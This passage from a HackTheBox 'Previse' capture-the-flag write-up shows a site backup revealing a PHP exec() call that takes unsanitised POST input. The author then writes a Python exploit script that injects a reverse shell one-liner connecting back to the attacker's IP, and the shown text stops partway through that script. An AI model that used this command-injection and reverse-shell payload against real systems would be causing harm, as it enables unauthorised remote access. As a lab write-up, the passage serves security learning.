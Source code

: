Our account should now be created.

# Foothold:

We now get to have access to all of the pages that we were able to discover through FFuF. Interestingly, we have a file management section, in `/files.php`.

![Untitled](/assets/2022-01-08-hackthebox-previse/Untitled%204.png)

We can download the `sitebackup.zip` and examine the contents of the site:

```bash
kali@kali:~/htb//assets/2022-01-08-hackthebox-previse/siteBackup$ ls
accounts.php  download.php   files.php   header.php  login.php   logs.php  status.php
config.php    file_logs.php  footer.php  index.php   logout.php  nav.php
```

Looking into the files, there are a number of possible vectors to look at, the first one being inside of the `logs.php` file.

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}"); // We have direct access to the inside of an exec function.
```

From there, it is easy to understand what we have to do, we can simply inject a reverse shell and obtain the foothold from there. PayloadAllTheThings has a lot of [reverse shells available](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). I chose to use one of the python ones, because the snippet above shows that the victim system has python installed:

```python
import requests;

rs = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",3000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'"""
payload = "; {}".format(rs)
base_url = "http://10.10.11.104/"
login_url = base_url + "login.php"
logs_url = base_url + "logs.php"

login_body = {
        "username": "strix",
        "password": "strix",
}

r = requests.session()
headers = {
        'User-Agent' : "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.30 (KHTML, like Gecko) Ubuntu/11.04 Chromium/12.0.742.112 Chrome/12.0.742.112 Safari/534.30"
```